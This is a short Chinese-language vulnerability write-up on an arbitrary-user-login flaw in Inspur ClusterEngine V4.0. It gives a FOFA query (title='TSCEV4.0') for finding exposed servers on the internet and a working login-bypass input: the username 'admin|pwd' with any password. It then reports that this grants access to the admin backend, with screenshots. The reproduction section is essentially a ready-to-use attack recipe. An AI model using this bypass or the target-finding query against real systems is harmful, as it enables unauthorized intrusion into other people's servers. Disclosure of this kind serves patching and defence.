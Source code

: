 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/lc-1.png)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](http://wikioss.peiqi.tech/vuln/ic-7.png)